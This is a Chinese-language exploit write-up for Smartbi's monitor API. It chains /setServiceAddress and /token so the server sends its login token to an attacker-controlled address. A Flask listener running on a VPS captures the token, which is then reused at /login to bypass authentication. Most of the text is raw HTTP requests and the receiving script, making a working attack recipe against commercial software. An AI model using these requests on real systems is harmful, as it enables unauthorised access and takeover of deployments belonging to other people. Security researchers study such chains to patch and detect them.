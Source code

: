 一旦控制了token，就要找到登陆的位置，用token去登陆。`MonitorService`的`login`方法

```java
    @RequestMapping(
        value = {"/login"},
        method = {RequestMethod.POST}
    )
    @FunctionPermission({"NOT_LOGIN_REQUIRED"})
    public Map<String, Object> loginByToken(@RequestBody String token) {
        boolean isLogin = this.catalogService.loginByToken(token);
        Map<String, Object> result = new HashMap();
        result.put("result", isLogin);
        return result;
    }
```

那么将上述思路串联起来，先通过`/setServiceAddress`控制地址，然后通过`/token`将token发送到地址上。通过可控地址接收的token在`/login`时使用登陆。

（1）通过`/setServiceAddress`控制地址

```
# Request
POST /smartbi/smartbix/api/monitor/setServiceAddress

http://ip

# Response
{"took":0,"success":true,"message":"Service address updated successfully", "code":200}
```

（2）通过`/token`将token发送到地址上

```
POST /smartbi/smartbix/api/monitor/token

service
```

在vps上利用python起一个特定路由的服务，代码如下

```python
from flask import Flask, request, jsonify

app = Flask(__name__)

@app.route("/api/v1/configs/engine/smartbitoken", methods=["GET", "POST", "PUT", "DELETE"])
def receive_request():
    if request.method == "POST":
        try:
            data = request.json
            print("Received JSON data:")
            print(data)
            return jsonify({"message": "Request received successfully"})
        except Exception as e:
            print("Error parsing JSON data:", e)
            return jsonify({"error": "Invalid JSON data"}), 400
    else:
        data = request.args
        print("Received parameters:")
        for key, value in data.items():
            print(f"{key}: {value}")
        return "Request received successfully"

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=80)

```
